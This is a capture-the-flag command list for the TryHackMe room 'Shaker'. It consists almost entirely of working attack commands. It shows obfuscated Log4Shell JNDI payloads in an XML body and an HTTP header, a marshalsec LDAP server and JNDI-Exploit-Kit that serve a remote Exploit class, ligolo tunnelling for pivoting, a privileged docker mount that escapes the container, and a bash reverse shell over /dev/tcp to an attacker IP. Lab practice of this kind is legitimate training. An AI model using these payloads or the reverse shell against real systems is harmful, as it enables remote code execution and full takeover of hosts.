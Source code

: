 Below commands used to solve TryHackMe room Shaker https://tryhackme.com/room/shaker
Full video walk through: https://youtu.be/D93kehXyV2Q

Install ing marshalsec

java -version
sudo apt install openjdk-8-jdk
sudo update-alternatives --config java
sudo apt install maven

python3.9 -m http.server

git clone https://github.com/mbechler/marshalsec.git

cd marshalsec/
mvn clean package -DskipTests

java -cp target/marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer "http://10.10.250.89:8000/#Exploit" 1389

xml file used:

<?xml version="1.0"?>
<thm>${${::-j}ndi:ldap://10.10.250.89:1389/Exploit}</thm>

Compile your exploit:

javac -source 1.8 -target 1.8 -bootclasspath /usr/lib/jvm/java-8-openjdk-amd64/jre/lib/rt.jar Exploit.java

Installing ligolo

sudo ip tuntap add user root mode tun ligolo
sudo ip link set ligolo up

./proxy -selfcert -laddr 0.0.0.0:12346

sudo ip addr add 172.18.0.2/16 dev ligolo
sudo ip route add 172.18.0.0/16 dev ligolo


curl http://172.18.0.1:8888/ -H 'X-Api-Version: ${${lower:j}ndi:${lower:l}${lower:d}a${lower:p}://10.10.250.89:1389/Exploit}'

JNDI-Exploit-Kit

java -jar JNDI-Exploit-Kit-1.0-SNAPSHOT-all.jar   -R 10.10.250.89:1099 -J 10.10.250.89:8180 -S 10.10.250.89:5555

Root Access:

docker pull alpine
docker save alpine > alpine.tar

stabilize your shell:
script /dev/null -c bash

curl -o /tmp/alpine.tar http://10.10.134.12:8000/alpine.tar

docker load < /tmp/alpine.tar

docker run --privileged -v /:/mnt alpine cat /mnt/root/root.txt

docker run --privileged -v /:/mnt alpine /bin/sh -c "chroot /mnt bash -c 'bash -i >& /dev/tcp/10.10.250.89/9001 0>&1'"
